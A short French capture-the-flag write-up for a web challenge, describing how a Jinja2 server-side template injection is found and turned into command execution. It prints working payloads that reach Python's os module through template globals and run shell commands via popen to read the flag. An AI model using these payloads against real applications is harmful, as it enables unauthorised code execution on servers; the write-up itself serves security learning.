

# Code source:

Voir https://github.com/9hozt/ctf-challenges/tree/main/HSR2023/web/chat_not_gpt

# Résolution

Nous avons une partie statique correspondant à la question posée et une partie dynamique correspondant à notre input.
De là, on suspecte une *template injection*. Les plus courantes étant sur Jinja2 (Python), on essaie d'accéder en premier lieu à des objets python.

Premier payload:

```
{{config.class.dict}}
```

Second payload:

```
{{ self._TemplateReference__context.joiner.__init__.__globals__.os}}
```

De là, nous pouvons éxécuter du code:

```
.popen("ls").read() 
```

On n'a plus qu'à se déplacer et afficher le flag avec un cat.


